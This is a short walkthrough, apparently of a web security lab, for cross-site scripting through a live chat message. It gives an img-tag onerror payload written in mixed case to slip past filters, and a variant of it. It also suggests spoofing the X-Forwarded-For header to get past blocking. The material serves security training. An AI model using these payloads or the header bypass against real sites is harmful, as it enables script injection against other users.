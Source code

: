 
1. Click "Live chat" and send a chat message.
2. Add the payload bellow

`<img src=1 oNeRrOr=alert`1`>`

![](/static/img/Pasted_image_20231121182227.png)

![](/static/img/Pasted_image_20231121182252.png)

3. If you get blocked, add the header `X-Forwarded-For: 1.1.1.1`;
4. Try another payload like:

`<img src=1 oNeRrOr=alert```1````>
